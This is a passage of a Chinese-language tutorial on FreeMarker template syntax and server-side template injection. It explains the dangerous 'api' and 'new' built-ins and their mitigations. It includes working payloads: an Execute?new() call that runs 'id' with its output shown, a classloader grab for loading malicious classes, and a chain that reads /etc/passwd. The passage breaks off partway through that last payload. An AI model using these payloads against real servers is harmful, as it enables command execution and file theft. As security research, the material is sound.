 ```
```

创建好的变量，可以通过**插值**进行调用。插值是用来给表达式插入具体值然后转换为文本(字符串)，FreeMarker 的插值主要有如下两种类型：
<li>通用插值：`$`{`expr`}``
</li>
<li>数字格式化插值： `#`{`expr`}``
</li>
这里主要介绍通用插值，当插入的值为字符串时，将**直接输出表达式结果**，举个例子：

```
eg:
$`{`100 + 5`}` =&gt; 105
$`{`seq[1]`}` =&gt; bar //上文创建的序列
```

插值仅仅可以在两种位置使用：在文本区(比如 `Hello $`{`name`}`!`) 和字符串表达式(比如 `&lt;#include "/footer/$`{`company`}`.html"&gt;`)中。

### <a class="reference-link" name="%E5%86%85%E5%BB%BA%E5%87%BD%E6%95%B0"></a>内建函数

FreeMarker 提供了大量的内建函数，用于拓展模板语言的功能，大大增强了模板语言的可操作性。具体用法为`variable_name?method_name`。然而其中也存在着一些危险的内建函数，这些函数也可以在官方文档中找到，此处不过多阐述。主要介绍两个内建函数，`api`和`new`，如果开发人员不加以限制，将造成极大危害。
<li>
`api`函数如果 value 本身支撑`api`这个特性，`value?api`会提供访问 value 的 API（通常为 Java API），比如`value?api.someJavaMethod()`。</li>
```
eg：
  &lt;#assign classLoader=object?api.class.protectionDomain.classLoader&gt;
  //获取到classloader即可通过loadClass方法加载恶意类
```

但值得庆幸的是，`api`内建函数并不能随意使用，**必须在配置项`api_builtin_enabled`为`true`时才有效，而该配置在`2.3.22`版本之后默认为`false`**。
<li>
`new`函数这是用来创建一个具体实现了`TemplateModel`接口的变量的内建函数。在 `?` 的左边可以指定一个字符串， 其值为具体实现了 `TemplateModel` 接口的完整类名，然后函数将会调用该类的构造方法生成一个对象并返回。</li>
```
//freemarker.template.utility.Execute实现了TemplateMethodModel接口(继承自TemplateModel)
  &lt;#assign ex="freemarker.template.utility.Execute"?new()&gt; 
      $`{`ex("id")`}`//系统执行id命令并返回
  =&gt; uid=81(tomcat) gid=81(tomcat) groups=81(tomcat)
```

**拥有编辑模板权限的用户可以创建任意实现了 `TemplateModel` 接口的Java对象，同时还可以触发没有实现 `TemplateModel` 接口的类的静态初始化块**，因此`new`函数存在很大的安全隐患。好在官方也提供了限制的方法，可以使用 `Configuration.setNewBuiltinClassResolver(TemplateClassResolver)` 或设置 `new_builtin_class_resolver` 来限制这个内建函数对类的访问(从 2.3.17版开始)。

## FreeMarker初代SSTI漏洞及安全机制

经过前文的介绍，我们可以发现 FreeMarker 的一些特性将造成模板注入问题，在这里主要通过`api`和`new`两个内建函数进行分析。
<li>
**api 内建函数的利用**我们可以通过`api`内建函数获取类的`classloader`然后加载恶意类，或者通过`Class.getResource`的返回值来访问`URI`对象。`URI`对象包含`toURL`和`create`方法，我们通过这两个方法创建任意`URI`，然后用`toURL`访问任意URL。</li>
```
eg1：
  &lt;#assign classLoader=object?api.class.getClassLoader()&gt;
  $`{`classLoader.loadClass("our.desired.class")`}`

  eg2：
  &lt;#assign uri=object?api.class.getResource("/").toURI()&gt;
  &lt;#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()&gt;
  &lt;#assign is=input?api.getInputStream()&gt;
  FILE:[&lt;#list 0..999999999 as _&gt;
      &lt;#assign byte=is.read()&gt;
      &lt;#if byte == -1&gt;
          &lt;#break&gt;
      &lt;/#if&gt;
```